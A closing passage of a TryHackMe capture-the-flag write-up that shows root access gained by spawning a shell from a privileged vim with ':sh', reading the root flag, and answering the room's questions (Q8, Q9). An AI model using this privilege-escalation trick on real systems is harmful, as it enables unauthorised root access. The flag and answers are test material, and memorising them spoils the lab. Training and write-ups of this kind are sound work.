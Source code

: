 	> :sh

	> whoami

	```
	root
	```

	Root shell obtained successfully!


<br>

## Root flag:

> cd /root

> ls -l

```
-rw-r--r-- 1 root root 24 aug 17  2019 root.txt
```

> cat root.txt

```
W3ll d0n3. You made it!
```


<br>

## THM Questions:

* _Q8_: What can you leverage to spawn a privileged shell? <br> _A_: `vim`
* _Q9_: What's the root flag? <br> _A_: `W3ll d0n3. You made it!`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev), [LinkedIn](https://www.linkedin.com/in/jayadityadev26/) and [X](https://twitter.com/jayadityadev)

</div>

---
---